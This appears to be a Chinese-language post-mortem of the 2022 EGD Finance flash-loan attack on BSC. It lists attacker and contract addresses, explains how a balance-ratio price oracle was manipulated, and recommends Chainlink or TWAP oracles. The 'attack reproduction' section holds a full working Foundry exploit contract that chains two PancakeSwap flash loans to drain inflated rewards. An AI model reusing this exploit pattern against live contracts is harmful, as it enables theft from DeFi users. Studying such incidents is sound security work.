



#### 事件资讯

- 时间：*2022-08-07*

- 损失：*~36_044 $*

- 漏洞： *池子`[PancakeSwap V2:EGD-BSC-USD]`的价格被操纵，将`EGD`的价格严重拉低，使得`rew`的值变大，从而获取更多的`EGD Token`。*

```solidity
rew += quota * 1e18 / getEGDPrice();
```

#### 链上资讯

- *Chain：* BSC

- *Hacker Address：*
    - *0xee0221d76504aec40f63ad7e36855eebf5ea5edd* 【攻击账户】
    - *0x3Cb0FE8b5ac9D36F22465424412D3e76988747E6*【资金分流】
    - *0x922D672F7e6E57c6481038e3cf63C529D88bc70d* 【资金分流】
- *Attack Contract : 0xc30808d9373093fbfcec9e026457c6a9dab706a7*
- Attack Tx : *0x50da0b1b6e34bce59769157df769eb45fa11efc7d0e292900d6b0a86ae66a2b3*
- *Vulnerable Contract : 0x34bd6dba456bc31c2b3393e499fa10bed32a9370 (Proxy)*
- *Vulnerable Contract : 0x93c175439726797dcee24d08e4ac9164e88e7aee (Logic)*
- *Pair(EGD, USD)：0xa361433E409Adac1f87CDF133127585F8a93c67d [Pancake LPs (Cake-LP)]*
- *Pair(WBNB, USD)：0x16b9a82891338f9bA80E2D6970FddA79D1eb0daE [PancakeSwap: WBNB-BSC-USD]*

#### 资金流向

- 资金流向图：



- 资金变换



#### 攻击流程



#### 解析攻击步骤

> *tips： 本次攻击涉及到了两个交易池，主要是操纵了`EGD/USD`交易对的价格从而完成套利。*
>
> 
>
> *可以看到这些闪电贷的回调函数都是在同一个攻击合约实现的，为什么同一个回调函数可以执行两种逻辑呢？*
>
> **答：因为在两次回调中传入的参数不一样，第一次的`data=0x00`，第二次是`data=0x0000`，。函数可以根据不同的参数执行不同的逻辑。**

1. hacker 先从`WBNB/USD`交易池中借出`2000USD`，用作第二次闪电贷的手续费；

2. 在`WBNB/USD`调用`swap()`函数，执行闪电贷操作；

3. 在回调函数中调用`EGD/USD`交易对的`swap()`函数，借出大量的`USD`，使得`EGD`的价格超跌，再次执行闪电贷操作，在这次闪电贷中去执行`claimAllReward()`函数，从而获得了更多的`EGD`。

    原因是：`getEGDPrice()`依赖`EGD/USD`交易对中`EGD`和`USD`的数量比来决定`EGD`的价格，而`rew`依赖`quota`和`EGDPrice`的比值来计算大小，所以只要"暂时"将`EGDPrice`的价格调低便可以实现套利。

    ```solidity
        function getEGDPrice() public view returns (uint){
            uint balance1 = EGD.balanceOf(pair);
            uint balance2 = U.balanceOf(pair);
            return (balance2 * 1e18 / balance1);
        }
        
        function claimAllReward() external {
    			// ...
    			uint quota = (block.timestamp - info.claimTime) * info.rates;
                rew += quota * 1e18 / getEGDPrice();
    			// ...
            EGD.transfer(msg.sender, rew);
            userInfo[msg.sender].totalClaimed += rew;
            emit Claim(msg.sender,rew);
        }
        
    ```

    4. 执行完`claimAllReward()`函数之后，便使用从`WBNB/USD`交易池中借出`USD`进行还款，此时完成第二层闪电贷；
    5. 又回到第一层闪电贷中，继续执行兑换操作`swapExactTokensForTokensSupportingFeeOnTransferTokens()`，【`EGD`代币在转账中会收取手续费】，将`EGD`兑换成`USD`，将兑换出来的`USD`一部分作为手续费对第一层闪电贷进行还款，至此闪电贷套利操作完成。
    6. 后续操作便是 hacker 将"鸡蛋分篮"了。

#### 攻击复现

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

// @KeyInfo - Total Lost : ~36,044 US$
// Attacker : 0xee0221d76504aec40f63ad7e36855eebf5ea5edd
// Attack Contract : 0xc30808d9373093fbfcec9e026457c6a9dab706a7
// Vulnerable Contract : 0x34bd6dba456bc31c2b3393e499fa10bed32a9370 (Proxy)
// Vulnerable Contract : 0x93c175439726797dcee24d08e4ac9164e88e7aee (Logic)
// Attack Tx : https://bscscan.com/tx/0x50da0b1b6e34bce59769157df769eb45fa11efc7d0e292900d6b0a86ae66a2b3

// @Info
// Vulnerable Contract Code : https://bscscan.com/address/0x93c175439726797dcee24d08e4ac9164e88e7aee#code#F1#L254
// Stake Tx : https://bscscan.com/tx/0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8

// @Analysis
// Blocksec : https://twitter.com/BlockSecTeam/status/1556483435388350464
// PeckShield : https://twitter.com/PeckShieldAlert/status/1556486817406283776

import {IERC20, IPancakePair, IPancakeRouter} from "./interface.sol";
import {Test, console} from "forge-std/Test.sol";

/* -------------------- Interface -------------------- */
interface IEGD_Finance {
    function bond(address invitor) external;

    function stake(uint256 amount) external;

    function calculateAll(address addr) external view returns (uint256);

    function claimAllReward() external;

    function getEGDPrice() external view returns (uint256);
}

IPancakePair constant USDT_WBNB_LPPool = IPancakePair(
    0x16b9a82891338f9bA80E2D6970FddA79D1eb0daE
);
IPancakePair constant EGD_USDT_LPPool = IPancakePair(
    0xa361433E409Adac1f87CDF133127585F8a93c67d
);
IPancakeRouter constant pancakeRouter = IPancakeRouter(
    payable(0x10ED43C718714eb63d5aA57B78B54704E256024E)
);
address constant EGD_Finance = 0x34Bd6Dba456Bc31c2b3393e499fa10bED32a9370;
address constant usdt = 0x55d398326f99059fF775485246999027B3197955;
address constant egd = 0x202b233735bF743FA31abb8f71e641970161bF98;

contract EGD_Finance_Attacker is Test {
    function setUp() public {
        vm.createSelectFork("bsc", 20_245_522);

        vm.label(address(USDT_WBNB_LPPool), "USDT_WBNB_LPPool");
        vm.label(address(EGD_USDT_LPPool), "EGD_USDT_LPPool");
        vm.label(address(pancakeRouter), "pancakeRouter");
        vm.label(EGD_Finance, "EGD_Finance");
        vm.label(usdt, "USDT");
        vm.label(egd, "EGD");
    }

    function testExploit() public {
        Exploit exploit = new Exploit();

        console.log(
            "--------------------  Pre-work, stake 100 USDT to EGD Finance --------------------"
        );
        console.log(
            "Tx: 0x4a66d01a017158ff38d6a88db98ba78435c606be57ca6df36033db4d9514f9f8"
        );
        console.log("Attacker Stake 100 USDT to EGD Finance");

        exploit.stake();
        vm.warp(1_659_914_146); // block.timestamp = 2022-08-07 23:15:46(UTC)

        console.log(
            "-------------------------------- Start Exploit ----------------------------------"
        );
        emit log_named_decimal_uint(
            "[Start] Attacker USDT Balance",
            IERC20(usdt).balanceOf(address(this)),
            18
        );
        emit log_named_decimal_uint(
            "[INFO] EGD/USDT Price before price manipulation",
            IEGD_Finance(EGD_Finance).getEGDPrice(),
            18
        );
        emit log_named_decimal_uint(
            "[INFO] Current earned reward (EGD token)",
            IEGD_Finance(EGD_Finance).calculateAll(address(exploit)),
            18
        );
        console.log("Attacker manipulating price oracle of EGD Finance...");

        exploit.harvest();

        console.log(
            "-------------------------------- End Exploit ----------------------------------"
        );
        emit log_named_decimal_uint(
            "[End] Attacker USDT Balance",
            IERC20(usdt).balanceOf(address(this)),
            18
        );
    }
}

contract Exploit is Test {
    uint256 borrow1;
    uint256 borrow2;

    function stake() public {
        // Give exploit contract 100 USDT
        deal(address(usdt), address(this), 100 ether);
        // Set invitor
        IEGD_Finance(EGD_Finance).bond(
            address(0x659b136c49Da3D9ac48682D02F7BD8806184e218)
        );
        // Stake 100 USDT
        IERC20(usdt).approve(EGD_Finance, 100 ether);
        IEGD_Finance(EGD_Finance).stake(100 ether);
    }

    function harvest() public {
        console.log(
            "Flashloan[1] : borrow 2,000 USDT from USDT/WBNB LPPool reserve"
        );
        borrow1 = 2000 * 1e18;
        USDT_WBNB_LPPool.swap(borrow1, 0, address(this), "0000");
        console.log("Flashloan[1] payback success");
        IERC20(usdt).transfer(
            msg.sender,
            IERC20(usdt).balanceOf(address(this))
        ); // refund all USDT
    }

    function pancakeCall(
        address sender,
        uint256 amount0,
        uint256 amount1,
        bytes calldata data
    ) public {
        if (keccak256(data) == keccak256("0000")) {
            console.log("Flashloan[1] received");

            console.log(
                "Flashloan[2] : borrow 99.99999925% USDT of EGD/USDT LPPool reserve"
            );
            borrow2 =
                (IERC20(usdt).balanceOf(address(EGD_USDT_LPPool)) *
                    9_999_999_925) /
                10_000_000_000; // Attacker borrows 99.99999925% USDT of EGD_USDT_LPPool reserve
            EGD_USDT_LPPool.swap(0, borrow2, address(this), "00");
            console.log("Flashloan[2] payback success");

            // Swap all egd -> usdt
            console.log("Swap the profit...");
            address[] memory path = new address[](2);
            path[0] = egd;
            path[1] = usdt;
            IERC20(egd).approve(address(pancakeRouter), type(uint256).max);
            pancakeRouter.swapExactTokensForTokensSupportingFeeOnTransferTokens(
                    IERC20(egd).balanceOf(address(this)),
                    1,
                    path,
                    address(this),
                    block.timestamp
                );

            bool suc = IERC20(usdt).transfer(
                address(USDT_WBNB_LPPool),
                2010 * 1e18
            ); // Pancakeswap fee is 0.25%, so attacker needs to pay back usdt >2000/0.9975 (Cannot be exactly 0.25%)
            require(suc, "Flashloan[1] payback failed");
        } else {
            console.log("Flashloan[2] received");
            emit log_named_decimal_uint(
                "[INFO] EGD/USDT Price after price manipulation",
                IEGD_Finance(EGD_Finance).getEGDPrice(),
                18
            );
            // -----------------------------------------------------------------
            console.log("Claim all EGD Token reward from EGD Finance contract");
            IEGD_Finance(EGD_Finance).claimAllReward();
            emit log_named_decimal_uint(
                "[INFO] Get reward (EGD token)",
                IERC20(egd).balanceOf(address(this)),
                18
            );
            // -----------------------------------------------------------------
            uint256 swapfee = ((amount1 * 10_000) / 9970) - amount1; // Attacker needs to pay >0.25% fee back to Pancakeswap
            bool suc = IERC20(usdt).transfer(
                address(EGD_USDT_LPPool),
                amount1 + swapfee
            );
            require(suc, "Flashloan[2] payback failed");
        }
    }
}

```


#### 总结与建议

**根本原因: 项目方使用了不安全的预言机，或是未实现 TWAP 时间加权平均价格。**

**建议使用第三方预言机，如chainlink等，或者是使用TWAP时间甲醛平均价格，而不是使用瞬时的价格，更不能通过`balanceOf()`获取交易池的数量比来求取价格。**


